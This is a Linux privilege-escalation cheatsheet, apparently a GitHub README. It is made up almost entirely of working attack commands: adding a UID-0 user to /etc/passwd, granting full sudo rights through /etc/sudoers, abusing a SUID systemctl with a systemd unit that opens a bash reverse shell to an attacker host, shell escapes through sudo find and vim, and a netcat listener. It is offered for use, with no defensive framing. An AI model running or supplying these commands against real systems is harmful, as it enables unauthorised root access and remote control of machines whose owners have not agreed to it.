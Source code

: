 # 🐧 LInux-Privilege-Escalation
Linux Privilege Escalation Cheatsheet

## Edit /etc/passwd File
For this you need to have write permission on the /etc/passwd file

### Create Encrypted Password and Salt
```
openssl passwd -1 -salt <username> <password>
```
### Add The Password To /etc/passwd
```
sudo nano /etc/passwd

<username>:<hashed password>:0:0:,,,:/home/nikki:/bin/bash
```

### Login As The New User
```
su <username>
```


## Edit Sudoers File
For this you need to have write permission on the /etc/sudoers

```
sudo nano /etc/sudoers

Add a new user in the User privilege specification section

<username> ALL=(ALL:ALL) ALL
```

### Switch To The New User
```
su <username>

sudo -i
```


## Systemctl - SUID Binary

### Find The SUID Binaries
```
find / -perm -u=s -type f 2>/dev/null
```
### Locate Service Files
```
locate .service

cat /usr/lib/systemd/system/udev.service
```
### Define Your Own Service
```
cd /tmp

nano shell.service
```
***shell.service***
```
[Unit]
Description=reverse shell

[Service]
User=root
ExecStart=/bin/bash -c 'bash -i >&/dev/tcp/<attacker ip>/<attacker port> 0>&1'
```
### Setup The Listener
```
nc -vlp 1234
```
### Enable Shell.service File
```
/usr/bin/systemctl enable /temp/shell.service
```
### Start The Service
```
/usr/bin/systemctl start shell
```

***You Should Get the Root Shell On The Attacker Machine***


## Find Command
```
sudo -l
```

***Create a file called sample***

```
/usr/bin/find sample -exec whoami \;

sudo /usr/bin/find sample -exec bash -i \;

sudo find sample -exec bash -i >& /dev/tcp/<attacker ip>/<attacker port> 0>&1 \;
```


## Vim Command
```
sudo -l
```
### Non Persistence Method
```
sudo vim

:set shell=/bin/bash
:shell
```
### Persistence Method
```
sudo vim /etc/sudoers

In the User privilege specification section
<username> ALL=(ALL:ALL) ALL
```


